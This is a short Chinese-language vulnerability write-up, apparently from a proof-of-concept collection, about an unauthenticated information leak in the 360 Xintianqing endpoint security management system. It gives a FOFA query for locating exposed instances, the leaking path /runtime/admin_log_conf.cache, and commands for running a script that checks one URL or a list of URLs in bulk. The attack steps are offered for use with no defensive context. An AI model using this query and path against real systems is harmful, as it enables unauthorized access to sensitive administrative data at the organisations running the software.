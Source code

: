# 360 新天擎终端安全管理系统信息泄露漏洞

### 1.漏洞描述

360新天擎终端安全系统是面向行政单位的一系列产品安全处理方案，该终端安全系统存在未授权访问漏洞，导致一定敏感信息泄露。

### 2.fofa语法

```
title="360新天擎" && body="登录"
```

### 3.漏洞复现

```
/runtime/admin_log_conf.cache
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719813577210-1c692a9e-de04-4a64-bbf0-137fa7330aae.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 360 新天擎终端安全管理系统信息泄露漏洞.py -u "http://127.0.0.1"  # 测试单个url
python3 360 新天擎终端安全管理系统信息泄露漏洞.py -f url.txt             # 测试多个url
```

